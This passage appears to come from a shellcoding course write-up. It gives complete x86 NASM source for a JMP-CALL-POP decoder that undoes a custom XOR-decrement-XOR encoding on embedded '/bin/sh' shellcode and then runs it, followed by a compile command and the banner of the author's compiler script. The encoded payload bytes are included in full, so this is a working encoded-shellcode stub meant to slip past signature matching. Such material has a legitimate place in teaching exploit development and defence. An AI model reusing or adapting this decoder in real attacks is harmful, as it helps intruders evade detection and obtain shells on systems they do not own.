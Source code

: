 ```nsam
; Executable name : decoder
; Version         : 1.0
; Created date    : 04/21/2021
; Last update     : 04/21/2021
; Author          : bigb0ss
; Description     : This is to run XOR-Increment-XOR decode for the "/bin/sh" shellcode
;

global _start

section .text

_start:

    jmp short call_decoder    ; JMP to "call_decoder" 

decoder:

    pop esi                   ; POPing "shellcode" on the ESI register
	xor ecx, ecx		      ; Zero out ECX
	xor edx, edx		      ; Zero out EDX
	mov dl, 30		     	  ; Move 30 (lengh of shellcode) to c low  
 
decode_loop:
	
	cmp ecx, edx		      ; Check if our loop is done for 30 times
	je encodedshellcode

    xor byte [esi], 0x11      ; 2nd XOR by 0x11
	dec byte [esi]		      ; Decrement by 1
	xor byte [esi], 0x05	  ; 1st XOR by 0x05

	inc esi
	inc ecx	
	jmp short decode_loop

call_decoder:

      call decoder                    ; CALL "decoder"
      encodedshellcode: db 0x24,0xd7,0x47,0x7f,0x79,0x74,0x66,0x7f,0x7f,0x79,0x7c,0x7d,0x3a,0x7f,0x3a,0x3a,0x3a,0x3a,0x9c,0xf6,0x47,0x9c,0xf9,0x46,0x9c,0xf4,0xa7,0x1e,0xd8,0x97
```

Finally, let's compile the `decoder.nasm` with complierX86.py again. 

```bash
# python compilerX86.py -f decoder
 
  ________  ________  _____ ______   ________  ___  ___       _______   ________     ___    ___ ________  ________         
 |\   ____\|\   __  \|\   _ \  _   \|\   __  \|\  \|\  \     |\  ___ \ |\   __  \   |\  \  /  /|\   __  \|\   ____\        
 \ \  \___|\ \  \|\  \ \  \\\__\ \  \ \  \|\  \ \  \ \  \    \ \   __/|\ \  \|\  \  \ \  \/  / | \  \|\  \ \  \___|      
  \ \  \    \ \  \\\  \ \  \\|__| \  \ \   ____\ \  \ \  \    \ \  \_|/_\ \   _  _\  \ \    / / \ \   __  \ \  \____   
   \ \  \____\ \  \\\  \ \  \    \ \  \ \  \___|\ \  \ \  \____\ \  \_|\ \ \  \\  \|  /     \/   \ \  \|\  \ \  ___  \ 
    \ \_______\ \_______\ \__\    \ \__\ \__\    \ \__\ \_______\ \_______\ \__\\ _\ /  /\   \    \ \_______\ \_______\ 
     \|_______|\|_______|\|__|     \|__|\|__|     \|__|\|_______|\|_______|\|__|\|__/__/ /\ __\    \|_______|\|_______|    
                                                                                    |__|/ \|__|     [bigb0ss] v1.0         
```